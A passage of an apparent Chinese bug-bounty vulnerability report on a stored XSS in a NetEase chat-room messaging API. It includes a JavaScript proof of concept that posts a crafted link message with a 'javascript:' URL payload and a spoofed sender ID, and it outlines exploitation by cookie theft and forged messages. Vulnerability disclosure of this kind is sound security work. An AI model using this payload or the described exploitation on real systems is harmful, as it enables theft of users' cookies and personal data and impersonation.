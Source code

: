         // 发送xss payload
        const startSendLinkMessage = async function () {

            // 链接，设置fromUid为攻击者的UID
            var payload_json = { "serverId": "0149881871", "channelId": "1459515", "squareId": "60054a7dd5456877d226706e", "fromUid": "b1fbb501020c46ff88577a3fe103c0ec", "fromNick": "", "msgType": "CHAT_ROOM_MSG", "sourceType": "GOD_WEB", "content": { "attachType": "link", "attachData": { "title": "点击惊喜", "url": "javascript://%0aalert(\"xss\");var a=\"163.com\";", "desc": "XXXXXXXSSSSSSSSS", "icon": "https://baidu.com/p.png" } }, "contentType": "SHARE" }

            var headers = setHeaderDs(JSON.stringify(payload_json))
            res = await myPostFetch('https://inf-im.ds.163.com/v1/web/chat-room-msg/send-msg', headers, payload_json)
        }
        startSendLinkMessage()


8. 该XSS的利用

    - 首先是窃取cookie，可能会带有邮箱和手机号信息
    
        ![cookie](./images/cookie.png)
    
    - 伪造发送消息等
    
        前文通过脚本发送合法请求，已经足够证明攻击者能伪造用户发送消息。只需要把该脚本上传到https服务器，并且通过xss payload下载恶意脚本，能够执行更加复杂的逻辑。

### 漏洞证明
请提供截图或视频

    POC视频链接如下：链接：https://pan.baidu.com/s/1aOqi-sLgA5XJIw3FUPiTIw 提取码：1314
